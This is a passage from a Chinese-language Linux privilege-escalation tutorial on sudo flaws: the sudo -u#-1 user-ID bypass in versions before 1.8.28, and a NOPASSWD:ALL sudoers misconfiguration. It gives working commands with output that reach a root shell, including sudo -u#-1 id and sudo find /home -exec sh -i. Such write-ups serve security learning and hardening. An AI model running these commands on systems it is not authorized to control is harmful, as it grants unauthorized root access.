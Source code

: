 ```bash
test    ALL=(ALL, !root) ALL
```

含义是：允许`test`用户以任意身份（除了`root`）执行任意命令

### 2.2 漏洞复现

**2.2.1 查看sudo版本信息**

版本号为：1.8.9p5 < 1.8.28

```bash
$ sudo -V
Sudo version 1.8.9p5
Sudoers policy plugin version 1.8.9p5
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.9p5
```

**2.2.2 提权**

**sudo -u#id** 指定用户 id 去执行命令，由于可以指定id，所以可以使用-u#-1或者-u#4294967295绕过限制，从而以root身份去执行任意代码

```bash
$ sudo -u#-1 id
uid=0(root) gid=0(root) groups=0(root)
```

## 3. `sudo`配置不当提权

### 3.1 漏洞原理

依然是由于`/etc/sudoers`不规范配置导致

```bash
test    ALL=(ALL:ALL) NOPASSWD:ALL
```

含义是：允许`test`用户以任意身份执行任意命令，且不需要使用`test`的用户密码

### 3.2 漏洞复现

可以看到只要我们使用`sudo`来执行命令，就会以root身份来执行

```bash
$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```

也可以通过其他命令执行获取root shell

```bash
$ sudo -i
root@ubuntusrv2004:~#

sudo find /home -exec sh -i \;
```
